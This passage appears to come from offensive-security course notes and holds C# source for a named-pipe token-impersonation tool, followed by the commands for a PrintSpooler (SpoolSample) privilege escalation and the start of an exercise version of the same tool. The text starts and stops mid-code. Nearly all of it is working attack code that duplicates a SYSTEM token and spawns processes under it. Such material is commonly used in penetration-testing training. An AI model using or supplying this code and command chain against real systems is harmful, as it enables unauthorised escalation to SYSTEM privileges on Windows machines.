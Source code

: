             // Create an environment block for the non-interactive session
            IntPtr env = IntPtr.Zero;
            bool res = CreateEnvironmentBlock(out env, sysToken, false);

            // Get the impersonated identity and revert to self to ensure we have impersonation privs
            String name = WindowsIdentity.GetCurrent().Name;
            Console.WriteLine($"Impersonated user is: {name}.");
            RevertToSelf();

            // Get the system directory
            StringBuilder sbSystemDir = new StringBuilder(256);
            uint res1 = GetSystemDirectory(sbSystemDir, 256);

            // Spawn a new process with the duplicated token, a desktop session, and the created profile
            PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
            STARTUPINFO sInfo = new STARTUPINFO();
            sInfo.cb = Marshal.SizeOf(sInfo);
            sInfo.lpDesktop = "WinSta0\\Default";
            CreateProcessWithTokenW(sysToken, LogonFlags.WithProfile, null, binToRun, CreationFlags.UnicodeEnvironment, env, sbSystemDir.ToString(), ref sInfo, out pInfo);
            Console.WriteLine($"Executed '{binToRun}' with impersonated token!");
        }
    }
}
```
#### Use Impersonate Token Get Shell
**important must spooler service start**
```
psexec64 -i -u "NT AUTHORITY\Network Service" cmd.exe
SpoolSample.exe \[Hostname\] \[Hostname\]/pipe/test
ImpersonateNamedPipe.exe excutefilename  \\\\.\\pipe\\test\\pipe\\spoolss
```
#### 12.2.2.1 Exercises
```
using System;
using System.Runtime.InteropServices;

namespace ImpersonateNamedPipe
{
    class Program
    {
        [DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        public extern static bool DuplicateTokenEx(IntPtr hExistingToken, uint dwDesiredAccess, IntPtr lpTokenAttributes, uint ImpersonationLevel, uint TokenType, out IntPtr phNewToken);

        [DllImport("advapi32", SetLastError = true, CharSet = CharSet.Unicode)]
        public static extern bool CreateProcessWithTokenW(IntPtr hToken, UInt32 dwLogonFlags, string lpApplicationName, string lpCommandLine, UInt32 dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr CreateNamedPipe(string lpName, uint dwOpenMode, uint dwPipeMode, uint nMaxInstances, uint nOutBufferSize, uint nInBufferSize, uint nDefaultTimeOut, IntPtr lpSecurityAttributes);

        [DllImport("kernel32.dll")]
        static extern bool ConnectNamedPipe(IntPtr hNamedPipe, IntPtr lpOverlapped);
